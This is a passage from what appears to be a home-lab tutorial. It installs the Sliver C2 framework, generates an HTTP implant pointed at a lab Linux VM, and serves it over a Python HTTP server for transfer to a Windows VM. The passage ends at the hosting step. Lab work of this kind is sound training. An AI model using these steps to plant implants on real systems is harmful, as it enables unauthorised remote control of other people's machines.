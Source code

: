 This will install Sliver C2 framework .

```bash
sudo su
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
chmod +x /usr/local/bin/sliver-server
apt install -y mingw-w64
mkdir -p /opt/sliver
```

![enter image description here](https://i.ibb.co/YBwPyKDv/kali-linux-2024-1-vmware-amd64-2025-02-20-11-51-50.png)

## **2. Generating the C2 Payload**

We will use **Sliver C2** to generate the payload .

### **Accessing the Linux VM**

1.  Login into the linux shell and switch to the root user:

    `sudo su`

2.  Change the directory to the Sliver installation directory:

    `cd /opt/sliver`

3.  Start the Sliver C2 server:

    `sliver-server`

### **Creating the Payload**

4.  Generate the C2 payload using the Ubuntu VM’s static IP address which we setuped at the beginning

    `generate --http [Linux_VM_IP] --save /opt/sliver`

![enter image description here](https://i.ibb.co/PzTzVnpx/generate-payload.png)

5.  Verify the the implant which we created:

    `implants`

6.  Exit Sliver for now:

    `exit`

## **3. Transferring the Payload to the Windows VM**

I am using a python http server to transfer the C2 payload from our linux machine to Windows VM .

### **Hosting the Payload on the Linux VM**

1.  Start a simple HTTP server on the Linux VM:

    ```bash
    cd /opt/sliver
    python3 -m http.server 80
    ```
